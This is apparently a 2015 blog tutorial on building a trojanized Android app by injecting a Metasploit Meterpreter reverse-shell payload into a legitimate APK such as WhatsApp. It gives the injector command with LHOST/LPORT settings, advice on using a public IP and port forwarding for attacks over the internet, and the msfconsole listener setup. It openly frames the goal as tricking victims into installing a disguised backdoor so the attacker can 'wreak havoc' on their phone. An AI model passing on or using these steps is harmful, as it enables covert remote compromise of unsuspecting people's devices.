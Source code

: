 ```yaml
---
date: 'Sat Dec 12 2015 02:30:19 GMT+0530 (India Standard Time)'
title: Embed a Metasploit Payload in an Original .apk File | Part 1 - The Easy Way
tags:
  - Android
  - Hacking
  - Metasploit
  - Kali Linux
---
```


Hi Fellas! I’m sure most of you, or at least those who have set a foot in the kingdom of hacking, have heard of Metasploit. Don’t be disappointed if you haven’t, because you’re in the right track.

From Wikipedia,

> The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine. Other important sub-projects include the Opcode Database, shellcode archive and related research.


In a more informal language, it’s a tool which we can use to perform various kinds of hacks against a machine. The flagship payload which comes with the Metasploit Framework is the ‘Meterpreter’, which also has an Android version that comes as an .apk file. In case you are wondering what a payload is, it’s a program we can install on a victim’s system to compromise it. Normally we have to install the Meterpreter payload in the victims phone by any means (usually involving Social Engineering), and when the victim runs the application, we would get a direct connection to that phone remotely and we can use it to wreak havoc on it.

But since the payload app doesn’t look very legit, takes up only a few kBs, and doesn’t show anything when clicked on, the victim will probably uninstall it right away, or worse, wouldn’t install it at all. So we have to solve that problem.

Here’s where this tutorial comes in. I’m gonna show you how to take any .apk file, be it WhatsApp or Amazon or SnapChat, and embed the Meterpreter payload in that apk. To the victim it will look and behave exactly as the original app, so he will use it regularly without any doubt, letting you do anything you want to his phone.


### Pre-requisites

Just to be clear,  In this tutorial the operating system used is Kali Linux, which is a de facto standard OS for Penetration Testing (read, hacking). You should also install the latest version of ‘ApkTool’ and some libraries for the scripts to work properly.

To install the required libraries, enter this command at the console:
```console
$ sudo apt-get install lib32stdc++6 lib32ncurses5 lib32z1
```

And to get the latest version of ApkTool, head over to [this site](http://ibotpeaches.github.io/Apktool/install/) and follow the installation instructions.


### Step 1

First of all grab the original apk from any of the numerous websites available. Just do a google search “app_name apk download” and Google will come up with a lot of results. Save that apk in any folder, in this tutorial I will use the Root folder and a WhatApp.apk as example.

### Step 2

Download the Ruby script from [this link](https://github.com/SkullTech/apk-payload-injector) and save it in the same folder as that of the original apk.

### Step 3

Open a terminal, and type the following command:
```console
$ ruby apk-embed-payload.rb WhatsApp.apk -p android/meterpreter/reverse_tcp LHOST=192.168.0.104 LPORT=4895
```

In this example I’ve used `192.168.0.104` as the Local IP address, i.e. your IP address and `4895` as the port on your Computer through which the Meterpreter payload will connect back to you. Make sure to change it to the appropriate values, especially the IP, the LPORT can be set to any reasonable port no.

_NOTE_ – If you are going to conduct this attack over the internet, be sure to put your public IP, not your local IP, in the LHOST option. You also may need to forward the port you’re using for this attack to work properly.

Once you run the command, if you are lucky, the script will do everything by itself and complete the whole process. But more than often it cannot determine to which Activity of the app it should bind the payload to, so it asks you to select it. In that case, leave the terminal open with the script at the prompt, and browse to /root/original.

Then open the `AndroidManifest.xml` file using any text editor you like and look for an <activity> tag which contains both the texts ‘.MAIN’ and ‘.LAUNCHER’. When you find that tag, look for the ‘android:name’ attribute of that tag and from there, note the name of that Activity.

At the prompt of the Ruby script, enter the number corresponding to the Activity name you had noted previously and press Enter.

This is the hardest step of all, so I’m posting some screenshots to make your life easier.

![Screenshot from 2015-12-12 01-44-01](/images/posts/screenshot-from-2015-12-12-01-44-01.png)
![Screenshot from 2015-12-12 01-43-27](/images/posts/screenshot-from-2015-12-12-01-43-27.png)


### PROFIT?!

If you did everything correctly, you should now get a apk file in your root directory with the name ‘backdoored_WhatsApp.apk’. It will install and run just like the original app.

As for the listener, you should use multi/handler and set the corresponding options accordingly. Just run the following commands.

```console
msfconsole
use multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.0.104
set LPORT 4895
exploit
```

Now wait for the victim to run the app, when he does it, you will get a Meterpreter prompt in the terminal!

![Screenshot from 2015-12-18 14:32:55](/images/posts/screenshot-from-2015-12-18-143255.png)


### Note:

You must have noticed I haven’t explained anything, rather asked you to blindly follow. As none of us wants to be a script-kiddie, we will learn how to do this manually in the next article. To be honest, I didn’t know how to successfully implement this until I found this script. After I saw that this script does what it promises, I learned the process by reverse-engineering it. Let us set that story apart for another article.

If you face any problem, don’t forget to mention it in the comments. I’ll try to help you in any way I can.

### Credits:

I found the script from the comments section of a thread in NullByte, so thanks to the guy who shared it, I’m sorry I don’t remember which thread it was or who the guy was. And credit of making this script goes to timwr and Jack64.
